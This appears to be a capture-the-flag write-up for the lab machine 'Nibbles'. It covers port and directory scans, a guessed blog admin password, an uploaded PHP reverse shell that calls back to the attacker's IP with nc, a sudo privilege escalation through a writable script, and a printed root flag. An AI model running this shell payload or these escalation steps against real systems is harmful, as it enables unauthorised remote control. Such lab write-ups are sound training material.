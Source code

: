 ```yaml
---
title: Nibbles
author: Jacek Cytera
geometry: margin=2cm

---
```


\tableofcontents
\pagebreak
        

# Recon

Found open port with ssh(22) and http(80)

```
> nmap -p- 10.10.10.75 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-17 20:31 CET
Nmap scan report for 10.10.10.75
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds
```

Simple request at ip reveals existence of /nibbleblog/ directory.


```
> curl 10.10.10.75
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Web content enumeration scan reveals admin.php file.

```
> gobuster dir -u http://10.129.200.170/nibbleblog/ --wordlist common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/22 20:00:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 304]
/.htaccess            (Status: 403) [Size: 309]
/.htpasswd            (Status: 403) [Size: 309]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
```

# Exploitation 

After accessing admin.php file and some tries, it was possible to guess admin credentials:

login: admin
password: nibbles

![](src/1.jpg)

Server has vulnerable version of nibbles blog (4.0.3).
That means it is possible to upload arbitrary .php file on it, and execute it's contents.
This can be done via plugins menu:

![](src/2.jpg)

We create simple reverse-shell payload:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9443 >/tmp/f"); ?>

```

Then, we upload it via plugin system, clicking browse, selecting file with payload,
and choosing "Save changes". 

After that, we listen on 9943 port on attack machine, and activate reverse shell
with curl request.

```sh
nc -lvnp 9443
curl http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php

```

After that, we upgrade our shell with python script on victim machine:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

# Privilege Escalation 

In user home directory, there are files:

```
> ls
personal.zip  user.txt

```

After unzipping contents of personal.zip, following folder structure appears:

```
> tree personal

personal
`-- stuff
    `-- monitor.sh

1 directory, 1 file

```

File monitor.sh is writeable by everyone:

```
$ ls -al monitor.sh

-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

```

And can be run with sudo without password:

```
$ sudo -l

Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

It can be exploited by adding /bin/bash at the end of the file, and executing it
with sudo:

```
$ echo "/bin/bash" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh

```

We gain access to root shell.

```
# cat /root/root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```
